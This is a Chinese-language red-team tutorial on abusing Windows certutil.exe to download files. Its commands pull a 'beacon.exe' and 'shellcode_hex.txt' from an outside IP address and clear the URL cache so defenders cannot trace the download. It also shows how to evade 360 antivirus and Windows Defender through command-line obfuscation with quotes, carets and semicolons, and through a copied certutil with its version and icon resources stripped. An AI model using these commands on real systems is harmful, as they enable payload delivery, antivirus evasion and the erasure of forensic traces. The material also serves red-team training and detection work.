# 简介

`certutil.exe`是Windows操作系统中的一个命令行程序，主要用于处理和管理证书。这个工具可以用于执行各种与证书有关的任务，包括：

1. **查看证书详情**：您可以使用`certutil.exe`来查看已安装证书的详细信息，包括其签发者，有效期，公钥和私钥等。
2. **导入和导出证书**：`certutil.exe`可以用来导入或导出证书，这对于备份或迁移证书非常有用。
3. **创建和删除证书**：使用`certutil.exe`，您可以创建新的自签名证书，或者删除不再需要的证书。
4. **管理证书库**：`certutil.exe`还允许您查看和管理您的证书库，这是存储所有证书的地方。


# certutil常用命令

输入`certutil -?`查看此命令的更多操作，如下图所示：




以下是certutil在渗透测试中常用到的一些命令参数：

- `-dump`: 显示证书的内容。例如：`certutil -dump myfile.cer`
- `-decode`: 解码 Base64 编码的文件。此选项可以用于解密或提取通过 Base64 编码的数据。例如：`certutil -decode inputfile outputfile`
- `-encode`: 将文件编码为 Base64。这可以用于将二进制数据编码为文本。例如：`certutil -encode inputfile outputfile`
- `-urlcache`: 显示或删除 URL 缓存的条目。在渗透测试中，这可以用于获取关于被访问的网页的信息。例如：`certutil -urlcache`
- `-f`: 强制覆盖现有文件或下载。在与 `-urlcache` 结合使用时，`-f` 选项可以用于下载文件。例如：`certutil -urlcache -split -f http://example.com/myfile`，其中`-split`选项将文件拆分为小的块（如果需要在下载大文件时，这可能有助于提高性能


certutil最常用到的命令还得是远程文件下载：`certutil -urlcache -split -f http:// 192.168.0.103/beacon.exe`

	


但是下载文件后会产生缓存，可通过`certutil -urlcache *`进行查看




避免蓝队查看缓存溯源，可以执行`certutil -urlcache * delete`来删除所有缓存



	


或者在下载命令后面加个delete来删除当前下载文件的缓存：`certutil -urlcache -split -f http:// 192.168.0.103/beacon.exe delete`




使用 `certutil` 命令下载文件时，文件的存放位置取决于你在命令行中指定的路径。如果你没有指定路径，那么文件会被保存到你当前的工作目录，例如此处我是在`C:\Users\hasee`目录下执行的certutil命令

		


如果你想要将下载的文件保存到特定位置，你可以在文件名中填写完整路径

```
certutil -urlcache -split -f http://192.168.0.103:8000/beacon.exe C:\beacon.exe
```




# 绕过360实战

在360核晶模式环境下，运行certutil命令远程下载文件，不出所料，被拦截掉了




以下命令利用Windows命令行解析器对特殊字符的处理规则进行混淆, 但还是会被核晶查杀

- 分号(`;`)和逗号(`,`)会被cmd命令忽略，
- `@` 符号在CMD中用于关闭命令回显，意味着运行 `@certutil` 不会在命令行中显示任何输出
- 在`-urlcache`参数插入双引号(`""`)同样也会被解析器忽略

```
;,,@certutil  -u""r""l""c""a""c""h""e"" -split  -f http://192.168.0.103:8000/shellcode_hex.txt
```




看了先知社区师傅的一篇文章：https://xz.aliyun.com/t/12503，在命令后面加个`-deletePolicyServer`参数,  其作用是命令执行后会生成对应文件的缓存文件，但是这种方法失效了，依然会被360拦截

> 还有其他类似参数：`-DeleteHelloContainer`、`-deleteEnrollmentServer`、`-deleteEccCurve`

```
;,@certutil  -u""r""l""c""a""c""h""e"" -split  -f http://192.168.0.103:8000/shellcode_hex.txt -deletePolicyServer
```



​	

尝试将certutil文件拷贝出来执行，依旧被拦截，个人推测360是通过校验hash方法来判断你执行的可执行程序是否是certutil

```
copy C:\Windows\system32\certutil.exe cert.exe

cert.exe -u""r""l""c""a""c""h""e"" -split  -f http://192.168.0.103:8000/shellcode_hex.txt -deletePolicyServer
```



​	

将certutil.exe拖入`Resource Hacker`中，删除其版本和图标信息




修改后的certutil并不需要做命令混淆，直接执行即可：`cert.exe -urlcache -split -f http://192.168.0.103:8000/shellcode_hex.txt`，没有被拦截，但是这种情况在实战中并没有太大的用处




# 绕Defender	

WindowsDefender绕过比较简单，使用`“`和`^`符号做下命令混淆就能bypass, 如下两个都是bypass成功的示例代码

```
cer^tu^til  -url""""cach""""e -sp""lit  -f http://192.168.0.103:8000/shellcode_hex.txt
certutil  -url""""cach""""e -sp""lit  -f http://192.168.0.103:8000/shellcode_hex.txt
```



​					

# 参考链接

- https://xz.aliyun.com/t/12503
- https://www.freebuf.com/articles/endpoint/334548.html
